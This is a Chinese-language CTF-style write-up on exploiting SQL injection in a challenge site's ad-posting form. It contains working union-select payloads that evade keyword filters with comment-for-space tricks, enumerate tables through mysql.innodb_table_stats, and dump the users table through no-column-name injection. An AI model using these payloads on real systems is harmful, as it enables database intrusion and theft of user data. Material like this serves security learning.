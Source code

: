 ### innodb_table_stats 绕过

![](https://pic1.imgdb.cn/item/67b31551d0e0a243d40041ad.png)

打开页面是个登录页面

![](https://pic1.imgdb.cn/item/67b3210bd0e0a243d4004609.png)

先注册一个账号

![](https://pic1.imgdb.cn/item/67b32131d0e0a243d400460d.png)

登录进去有一个申请发布广告

![](https://pic1.imgdb.cn/item/67b3214dd0e0a243d4004611.png)

申请广告时标题输入 and 提示敏感词汇

![](https://pic1.imgdb.cn/item/67b3218bd0e0a243d400461e.png)

换为 ' 申请广告

![](https://pic1.imgdb.cn/item/67b321c7d0e0a243d400462b.png)

点击广告详情

![](https://pic1.imgdb.cn/item/67b321f6d0e0a243d4004631.png)

发现有 SQL 报错

![](https://pic1.imgdb.cn/item/67b321e9d0e0a243d4004630.png)

进行 fuzz 测试发现以下被过滤

```sql
空格被替换为空
or
and
join
--+
#
updatexml
extractvalue
exp
floor
...
```

order by`不能使用，可以使用`group by`或者`into @a, @b, @c, ...

```sql
'group/**/by/**/23,'
```

![](https://pic1.imgdb.cn/item/67b32387d0e0a243d4004673.png)

23 报错说明只有 22，联合查询拿数据库名

```sql
'union/**/select/**/1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22'
```

![](https://pic1.imgdb.cn/item/67b32312d0e0a243d4004664.png)

因为这里过滤 `or` 所以也无法使用 `information_schema` 表，也没有 `sys` 表，所以使用 `mysql.innodb_table_stats`

```sql
'union/**/select/**/1,(select/**/group_concat(table_name)/**/from/**/mysql.innodb_table_stats),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```

![](https://pic1.imgdb.cn/item/67b32456d0e0a243d4004688.png)

但是因为没有字段信息可以查，使用无列名注入直接查内容

```sql
'union/**/select/**/1,(select/**/group_concat(`3`)/**/from/**/(select/**/1,2,3/**/union/**/select/**/*/**/from/**/users)a),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22 '
```


